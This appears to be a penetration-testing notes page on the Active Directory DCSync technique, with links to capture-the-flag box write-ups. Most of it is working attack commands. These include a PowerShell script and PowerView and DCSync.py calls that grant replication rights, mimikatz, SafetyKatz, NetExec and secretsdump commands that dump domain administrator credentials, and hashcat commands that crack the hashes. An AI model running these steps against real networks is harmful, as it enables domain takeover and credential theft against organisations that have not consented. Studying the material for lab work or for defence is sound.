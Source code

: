 # DCSync

In Active Directory environments, multiple Domain Controllers (DCs) replicate data using the Directory Replication Service Remote Protocol (DRSR). The DCSync technique abuses this by **impersonating a DC and requesting user credential data**—essentially pulling `ntds.dit` contents over the network without code execution on a real DC. Critically, DCs do not authenticate the source of the replication request, only that the caller’s SID has the necessary replication privileges.

To perform DCSync, an attacker must control an account with the following rights: `Replicating Directory Changes`, `Replicating Directory Changes All`, and sometimes `Replication-Get-Changes-In-Filtered-Set`. These are assigned by default to Domain Admins, Enterprise Admins, and built-in Administrators.&#x20;

However, if you have [`WriteDACL`](../permissions/writedacl.md) over a privileged account, you can delegate these rights yourself. Notably, the [Exchange Windows Permissions](../groups/exchange-windows-permissions.md) group often has DCSync rights in enterprise environments. For an example of levearing `WriteDACL` to perform DCSync see [Forest](../../../boxes/easy/forest.md).

## Tools

{% tabs %}
{% tab title="Windows" %}
We can enumerate permissions using an elevated CMD or PS session.

```powershell
# Command Prompt
dsacls "DC=domain,DC=local"
# PowerShell
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```

We can assign DCSync rights manually or automatically using [PowerView](../ad-tools/powerview.md) or `DCSync.py`.

> _The manual way is explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)_._

{% code overflow="wrap" %}
```powershell
# Manually
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"

# PowerView
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}

Once the rights have been assigned, we can perform the attack with [`mimikatz`](../ad-tools/mimikatz.md).

```powershell
# Mimikatz (PS script)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# Mimikatz (binary)
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator
```

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}


We can assign DCSync rights using `DCSync.py`.

{% code overflow="wrap" %}
```bash
# DCSync.py
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

We can also perform the attack with [`NetExec`](dcsync.md#netexec) or [Impacket](../ad-tools/impacket.md)'s `secretsdump` script.

```bash
# NetExec
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator

# Impacket's secretsdump
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```

> _For an example of a DCSync attack using `DCSync.py` and `secretsdump.py` see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_. For an example of a DCSync attack using NetExec see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack)_._

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="SafetyKatz" %}
SafetyKatz can be used to perform a DCSync attack:

```powershell
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:dcorp\ktbtgt" "exit"
```
{% endtab %}
{% endtabs %}

## Resources

* An in-depth article about DCSync from Altered Security ([article](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection))
* What `impacket-secretsdump` does behind the scenes ([video](https://www.youtube.com/watch?v=QfyZQDyeXjQ))
